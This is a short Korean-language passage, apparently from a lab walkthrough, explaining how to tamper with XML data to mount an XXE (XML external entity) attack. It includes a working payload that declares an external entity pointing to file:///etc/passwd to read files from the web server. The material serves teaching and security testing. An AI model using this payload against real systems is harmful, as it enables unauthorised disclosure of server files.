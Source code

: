 ![](images/A5_xxe/9-5_xxe.png)

이제 이 xml 데이터를 변조해서 XXE 공격을 시도한다.

아래와 같이 변조하면, 웹서버에 있는 파일을 읽을 수 있다.

(asdf 나 hacker 는 아무거나 원하는걸로 설정해도 된다.)
```xml
<?xml version="1.0"?>
<!DOCTYPE hacker [<!ENTITY asdf SYSTEM "file:///etc/passwd">]>
	<comment>
		<text>
			&asdf;
		</text>
	</comment>
	<?xml version="1.0"?>
```
